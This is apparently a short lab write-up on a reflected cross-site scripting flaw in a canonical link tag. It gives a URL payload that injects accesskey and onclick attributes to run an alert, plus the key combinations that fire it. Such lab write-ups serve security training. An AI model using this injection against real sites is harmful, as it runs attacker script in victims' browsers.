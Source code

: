 # Reflected XSS in canonical link tag

## Lab Description

## Solution

Append `/?%27accesskey=%27x%27onclick=%27alert(420)` in the url and load it once.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3d508049-08db-4a4d-85e1-dc451badb4eb)

To trigger the exploit on yourself, press one of the following key combinations:

- On Windows: ALT+SHIFT+X
- On MacOS: CTRL+ALT+X
- On Linux: Alt+X
  ![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/eb0a7243-14e7-4741-8eef-5ce6538b330e)
